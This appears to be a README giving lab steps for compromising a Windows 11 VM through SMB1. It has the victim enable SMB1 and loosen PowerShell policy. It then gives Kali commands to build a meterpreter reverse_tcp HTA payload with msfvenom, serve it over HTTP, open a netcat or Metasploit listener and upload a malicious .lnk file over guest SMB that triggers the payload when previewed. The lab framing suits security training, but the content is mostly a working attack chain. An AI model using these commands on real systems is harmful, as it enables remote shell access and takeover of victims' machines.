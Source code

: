 # Steps:

Simulate SMB vulnerability in Win11 VM:
- Enable SMB1:
    - From the start menu, search for `Turn Windows features on or off`.
    - Select `SMB 1.0 ...` then select `Ok`, the installation will start, then the VM will be restarted.
- In admin PowerShell, enable scripting `Set-ExecutionPolicy RemoteSigned -Scope LocalMachine`.
- Download `smb1-vulnerability.ps1` and run it in the admin PowerShell window.

Steps in Kali:
- Create a shortcut file:
    - Run `lnk-creator.sh`, make sure the *.lnk file is in the Desktop.
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.10 LPORT=4444 -f hta-psh > exploit.hta`.
    - Run `python3 -m http.server 80` and leave it running.
    - Open new terminal and use `nc -lvnp 4444`, or use Metasploit:
        - use exploit/multi/handler
        - set payload windows/meterpreter/reverse_tcp
        - set LHOST 192.168.8.10
        - set LPORT 4444
        - run
    - Open new terminal smb client
        - Use `smbclient //192.168.8.40/Sharing -U guest`.
        - There is no password for guest user, so just hit `Enter` key for password.
        - Use `put exploit.lnk`, to upload the created link file to Win11.
        - In Win11, open `Sharing` folder and click on `exploit.lnk` to be previewed, this will activate the malware.
